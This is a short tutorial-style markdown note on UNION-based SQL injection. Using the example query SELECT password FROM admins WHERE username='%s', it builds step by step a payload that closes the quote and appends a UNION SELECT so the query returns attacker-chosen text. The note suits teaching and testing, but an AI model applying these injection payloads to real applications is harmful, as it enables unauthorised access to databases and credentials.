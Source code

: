 # SQL Exploitation

## Force SQL query to print user defined output

* There are many ways in which print user defined input. The below SQL query will print user defined string "CUSTOMMESSAGE"
  * `SELECT 'CUSTOMMESSAGE'`
  * `SELECT TOP 1  'CUSTOMMESSAGE' AS` _`column_name`_ `FROM` _`table_name`_ `WHERE '1' = '1'`

### Example

* Given SQL query : `SELECT password FROM admins WHERE username=\'%s\'`
  * Input `%s` is user defined input.
  * _Payload =_ **%s**
* Step 1 : Make the current SELECT query to print null output.
  * This could be done here by sending invalid username for input `%s` 
  * Here we do not need to close the quote. If we add ending quote we will get syntax error.
  * _Payload_  =  **user\_2**
  * _Final SQL query_  =  **SELECT password FROM admins WHERE username='user\_2'**
* Step 2 : Now we need to add another SELECT query which will be executed after this select in the same inline.
  * This could be done using `UNION` keyword.
  * Here we need to handle quotes properly to make final SQL query syntax correct. See the final SQL query will already have a ending quote, so payload needs to have a missing ending quote.
  * _Payload =_ **user\_2' UNION SELECT \_\_\_\_\_\_**
  * _Final SQL query  =_  **SELECT password FROM admins WHERE username='user2' UNION SELECT \_\_\_\_\_\_'**
* Step 3 : Now The last part is to define the SELECT statement such that it will print user defined input.
  * _Payload =_ **user2' UNION SELECT 'CUSTOMMESSAGE**
  * _Final SQL Query =_ **SELECT password FROM admins WHERE username='user2' UNION SELECT 'CUSTOMMESSAGE'**



